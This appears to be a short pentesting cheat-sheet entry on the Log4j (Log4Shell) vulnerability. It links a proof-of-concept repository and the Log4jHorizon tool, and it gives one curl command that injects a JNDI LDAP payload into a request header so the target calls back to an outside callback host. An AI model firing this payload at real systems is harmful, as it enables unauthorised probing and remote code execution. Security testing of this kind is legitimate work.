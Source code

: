 # Log4j / Log4Shell

- [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)




## Log4jHorizon

- [https://www.sprocketsecurity.com/resources/crossing-the-log4j-horizon-a-vulnerability-with-no-return](https://www.sprocketsecurity.com/resources/crossing-the-log4j-horizon-a-vulnerability-with-no-return)
- [https://github.com/puzzlepeaches/Log4jHorizon](https://github.com/puzzlepeaches/Log4jHorizon)

Check with [DNSLog](http://dnslog.cn/):

```
$ curl -vvk https://vdi.exmaple.com/portal/info.jsp -H 'Accept-Language: ${jndi:ldap://zcf4r9z7oxec13t7fu1k14n0vr1ip8dx.oastify.com:1337/test}'
```

